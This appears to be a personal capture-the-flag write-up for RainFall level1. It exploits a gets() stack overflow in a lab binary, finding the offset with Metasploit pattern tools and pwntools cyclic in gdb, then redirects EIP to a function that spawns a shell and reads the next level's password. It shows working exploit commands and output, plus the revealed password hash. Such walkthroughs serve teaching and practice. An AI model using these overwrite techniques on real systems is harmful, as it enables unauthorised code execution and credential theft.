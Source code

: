 ```
ROP, or "Return-oriented Programming," is a technique used in binary exploitation to bypass
memory-based protection mechanisms such as Data Execution Prevention (DEP) and 
Address Space Layout Randomization (ASLR). The idea behind ROP is to chain together small snippets
of code, called "gadgets," that are already present in the program's memory. These gadgets are used 
to perform malicious actions, such as running shellcode to gain control of the system. Essentially,
ROP allows an attacker to execute arbitrary code by redirecting the program's execution flow 
to a series of pre-existing code snippets, rather than injecting new code into memory.
```



level1@RainFall:~$ ./level1 <<< $(python -c 'print("a" * 76)')

Illegal instruction (core dumped)


 the first step in exploitation is to find out the offset. Metasploit aids this process by using two different tools, called pattern_create and pattern_offset.

 in order to build a working exploit, we need to figure out the exact amount of these characters. Metasploit's inbuilt tool called the pattern_create does this for us in no time. It generates patterns that can be supplied instead of A characters and, based on the value which overwrote the EIP register, we can easily figure out the exact number of bytes using its counterpart tool pattern_offset.
- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318


./pattern create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

this output can be fed to the vulnerable application as follows:
```
(gdb) run <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? () 
```
We have 0x63413563 as the address that overwrote EIP register.

Let's figure out the exact number of bytes required to overwrite the EIP with the pattern_offset tool. This tool takes two arguments; the first one is the address and the second one is the length, which was 200 as generated using pattern_create:
```
./pattern offset 0x63413563 200
76
```
The exact match is found to be at 76. Therefore, any 4 bytes after 76 characters becomes the contents of the EIP register.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318-320

lets make sure of the above finding:
```
(gdb) run <<< $(python -c 'print "-" * 76 + "AAAA" ')
Segmentation fault.
0x41414141 in ??
```

```
The cause of crash was that the application failed to process the address of the next instruction,
located at 41414141. The value 41 is the hexadecimal representation of character A.
What actually happened is that our input, extending through the boundary of the buffer, 
went on to overwrite the EIP register. Therefore, since the address of the next instruction was overwritten,
the program tried to find the address of the next instruction at 41414141, which was not a valid address. Hence, it crashed.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 316
```

```
(gdb) info func
All defined functions:
[..]
0x08048444  run

or :
objdump -t level1 | grep text

objdump -S level1 | grep -A 20 run
```

b.Ninja for run func:
```
fwrite {"Good... Wait what?\n"}
return system(/bin/sh)
```
0x08048444 little endian : \x44\x84\x04\x08

all what we need to do is make the EIP point to the addr of run function which runs the shell
```
python -c 'import struct; print("-" * 76 + struct.pack(">L",0x44840408))' > /tmp/payload

python -c 'print "-" * 76 + "\x44\x84\x04\x08"' > /tmp/test

level1@RainFall:~$ cat /tmp/payload -  | ./level1
Good... Wait what?
pwd
/home/user/level1
cat /home/user/level1/.pass
cat: /home/user/level1/.pass: Permission denied
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


==
```
struct = Interpret bytes as packed binary data
struct.pack takes non-byte values (e.g. integers, strings, etc.) and converts them to bytes.
Format Strings
< little-endian
> big-endian
```

Payload: This is a piece of code that runs at the target after a successful exploitation is done. It defines the actions we want to perform on the target system.

Payloads
To understand what a payload does, let's consider a real-world example. A military unit of a certain country develops a new missile that can travel a range of 500 km at very high speed. Now, the missile body itself is of no use unless it's filled with the right kind of ammunition. Now, the military unit decided to load high explosive material within the missile so that when the missile hits the target, the explosive material within the missile explodes and causes the required damage to the enemy. So, in this case, the high explosive material within the missile is the payload. The payload can be changed based on the severity of damage that is to be caused after the missile is fired.
Similarly, payloads in the Metasploit Framework let us decide what action is to be performed on the target system once the exploit is successful. 

- Metasploit Revealed _ Secrets of the Expert Pentester -  Build your Defense against Complex Attacks-Packt Publishing (2017)

==
to detect the offset u could also use the cyclic script from the pawn tools 

https://github.com/arthaud/python3-pwntools/blob/master/pwnlib/commandline/cyclic.py
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
Seg
eip value 0x61616174 

hex 0x61616174 to text is: "aaat" but since LSB it's "taaa"

using cyclic again:

cyclic -l taaa
76

r <<< $(python -c 'print ("A" * 76 + "B")')
```
===
```
(gdb) disas main

 0x08048490 <+16>:    call   0x8048340 <gets@plt>
 
 0x08048495 <+21>:    leave
 
 break just after gets: 0x08048495
 
  run <<< "AAAAAAAAAAAAAAAAAAAA"
  
  eip at 0xbffff72c
  
  (gdb) x/30wx $esp
  
0xbffff6d0:     0xbffff6e0      0x0000002f      0xbffff72c      0xb7fd0ff4

0xbffff6e0:     0x41414141
 
(gdb) x/c 0xbffff6e0

0xbffff6e0:     65 'A'

(gdb) p/d 0xbffff72c - 0xbffff6e0

$2 = 76
```

